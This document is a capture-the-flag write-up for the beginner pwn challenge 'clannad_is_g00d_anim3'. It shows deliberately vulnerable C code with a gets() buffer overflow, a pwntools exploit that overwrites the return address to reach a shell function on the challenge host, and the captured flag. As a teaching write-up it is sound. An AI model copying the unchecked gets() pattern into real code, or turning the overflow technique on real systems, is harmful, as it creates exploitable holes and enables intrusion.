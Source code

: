 ```yaml
---
title: clannad_is_g00d_anim3

published: 2025-07-08

description: gets() vulnerability to rop

tags: [pwn, C, gets, ROP]
category: No Hack No CTF 2025
---
```


# clannad_is_g00d_anim3 
> this is a easy pwn
> Clannad is a good anime 

## Files
```c title="chall.c"
char *gets(char *s);

int Clannad(){
  system("/bin/sh");
}

int vuln(){
  char buffer[64];
  printf("Welcome to the world of dango daikazoku\n");
  printf("enter a dango:");
  gets(buffer);
}

int main(){
  setvbuf(stdout, 0, 2, 0);
  setvbuf(stdin, 0, 2, 0);
  setvbuf(stderr, 0, 2, 0);

  vuln();
  printf("Hello\n");
  return 0;
}
```

## Vulnerability

Looking at our function `vuln` we can spot a common vulnerability, using the function `gets`. Using gets allows us to input more than 64 characters which will overwrite the return address. This now lets use jump to any function like `Clannad` which gives us a shell

## Exploit

```python
from pwn import *

payload = b'A'*72
payload += p64(0x4011bb)
p = remote('chal.78727867.xyz', 9999)
p.sendline(payload)
p.interactive()
```

First we send enough A to fill up the buffer and a little more

We can find out how many by sending `pwn cyclic` to the binary and seeing in gdb where we end up and then looking up that value

Then we get the address of `Clannad` using either gdb or objdump, which is `0x4011bb` and send that so it becomes our return address

Then we just use the interactive shell and find our flag: `NHNC{CLANNAD_1s_g00d_anim3_and_you_kn0w_BOF}`

## Conclusion

Don't use gets. The compiler literally tells you not to
